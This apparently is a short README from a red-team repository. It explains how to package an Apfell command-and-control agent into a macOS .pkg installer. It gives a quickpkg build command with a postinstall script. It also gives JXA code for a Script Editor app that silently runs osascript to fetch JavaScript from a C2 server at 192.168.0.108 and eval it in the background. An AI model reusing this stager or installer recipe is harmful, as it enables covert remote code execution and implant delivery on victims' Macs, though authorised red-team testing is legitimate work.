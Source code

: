 # Apfell Payload
Making pkg payload from macOS JXA app

**Testing Environment:**  
Ubuntu 18.04.1 running [Apfell v1.4](https://github.com/its-a-feature/Apfell)\
MacOS 10.15.3


## Making the pkg payload
Using this [script](https://github.com/scriptingosx/quickpkg) to make pkg because pkgbuild is fickle.  
Run to build pkg:\
`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


## Creating apfelljxa.app with Script Editor
Create apfelljxa.app with the following Javascript:\  
`var app = Application.currentApplication();`\
`app.includeStandardAdditions = true;`\
`app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`


Note: Exclude Example folder when building the .pkg
